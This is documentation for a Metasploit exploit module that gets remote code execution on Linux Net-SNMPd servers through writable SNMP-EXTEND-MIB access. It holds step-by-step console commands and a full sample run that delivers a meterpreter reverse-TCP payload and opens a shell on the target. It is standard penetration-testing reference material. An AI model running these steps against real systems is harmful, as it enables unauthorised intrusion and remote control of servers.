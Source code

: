 ## Vulnerable Application

  This module uses SNMP extension MIBs to enable remote code execution on the Linux Net-SNMPD servers using the 
  SNMP-EXTEND-MIB.

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/linux/snmp/net_snmpd_rw_access`
  3. Do: `set rhost [IP]`
  4. Do: `set community [SNMP Community]`
  5. Do: `set version [SNMP Version]`
  6. Configure the payload
  7. Do: `run`
  8. You should get a session

## Options
  This module accepts 'RHOST' and 'RPORT' to specify target address and port respectively.
  'FILEPATH' specifies where to write the executable out to on the target. Needs to be writable by the SNMP service user. This defaults to /tmp
  'COMMUNITY' is a read/write community string of the target Net-SNMP service
  'VERSION' selects the SNMP protocol version. Accepted values are '1' or '2c'
  'CHUNKSIZE' is the maximum amount of payload bytes to write in a single operation. This value was found through experimentation and may not be suitable in all environments.
  'TIMEOUT' specifies the maximum time to allow SNMP to timeout.

## Scenario

  ```
  msf > use exploit/linux/snmp/net_snmpd_rw_access 
  msf exploit(linux/snmp/net_snmpd_rw_access) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/snmp/net_snmpd_rw_access) > set rhost 192.168.1.3
  rhost => 192.168.1.3
  msf exploit(linux/snmp/net_snmpd_rw_access) > set lhost 192.168.1.2
  lhost => 192.168.1.2
  msf exploit(linux/snmp/net_snmpd_rw_access) > set community private
  community => private
  msf exploit(linux/snmp/net_snmpd_rw_access) > set version 2c
  version => 2c

  msf exploit(linux/snmp/net_snmpd_rw_access) > show info
  
         Name: Net-SNMPd Write Access SNMP-EXTEND-MIB arbitrary code execution
       Module: exploit/linux/snmp/net_snmpd_rw_access
     Platform: 
         Arch: 
   Privileged: No
      License: Metasploit Framework License (BSD)
         Rank: Normal

  Provided by:
    Steve Embling at InteliSecure

  Available targets:
    Id  Name
    --  ----
    0   Linux x86

  Basic options:
    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    CHUNKSIZE  200              yes       Maximum bytes of payload to write at once 
    COMMUNITY  private          yes       SNMP Community String
    FILEPATH   /tmp             yes       file path to write to 
    RETRIES    1                yes       SNMP Retries
    RHOST      192.168.1.3      yes       The target address
    RPORT      161              yes       The target port (UDP)
    TIMEOUT    1                yes       SNMP Timeout
    VERSION    2c               yes       SNMP Version <1/2c>

  Payload information:
    Space: 4096

  Description:
    This exploit module exploits the SNMP write access configuration 
    ability of SNMP-EXTEND-MIB to configure MIB extensions and lead to 
    remote code execution.

  References:
    https://www.intelisecure.com

  msf exploit(linux/snmp/net_snmpd_rw_access) > run

  [*] Started reverse TCP handler on 192.168.1.2:4444 
  [*] Writing to NET-SNMP-EXTEND-MIB with given payload
  [*] Payload generated. Sending in 200 byte chunk increments.
  [*] Sent chunked executable. Now executing payload
  [*] Sending stage (849108 bytes) to 192.168.1.3
  [+] SNMP request timeout (this is promising).

  meterpreter > exit
  [*] Shutting down Meterpreter...
 
  [*] 192.168.1.3 - Meterpreter session 1 closed.  Reason: User exit
  ```

